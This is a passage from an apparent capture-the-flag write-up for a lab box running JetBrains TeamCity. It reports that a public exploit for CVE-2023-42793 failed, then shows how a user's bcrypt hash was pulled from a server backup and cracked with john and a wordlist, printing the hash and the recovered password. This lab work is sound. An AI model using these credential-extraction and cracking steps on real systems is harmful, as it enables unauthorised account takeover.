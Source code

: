 rce exploit from [here](https://github.com/Zyad-Elsayed/CVE-2023-42793) didn't
work either.

```
Responding with error, status code: 400 (Bad Request).
Details: jetbrains.buildServer.server.rest.errors.BadRequestException: This server is not configured to allow process debug launch via "rest.debug.processes.enable" internal property
Invalid request. Please check the request URL and data are correct.
```

Following solution

Since I have the admin creds to the portal, logged in and took backup.
![backup](./ss/runner_ss1.png)

Then got hash for matthew user

```bash
grep -R matthew
# database_dump/users:2, matthew, $2a$07$q.m8WQP8niXODv55lJVovOmxGtg6K/YPHbD48/JQsdGLulmeVo.Em, Matthew, matthew@runner.htb, 1717755629612, BCRYPT
john --wordlist=/usr/share/wordlists/rockyou.txt --format=bcrypt matthew_hash.txt
# Will run 2 OpenMP threads
# Press 'q' or Ctrl-C to abort, almost any other key for status
# piper123         (?)     
# 1g 0:00:00:16 DONE (2024-06-07 10:43) 0.06027g/s 3136p/s 3136c/s 3136C/s playboy93..peaches21
```
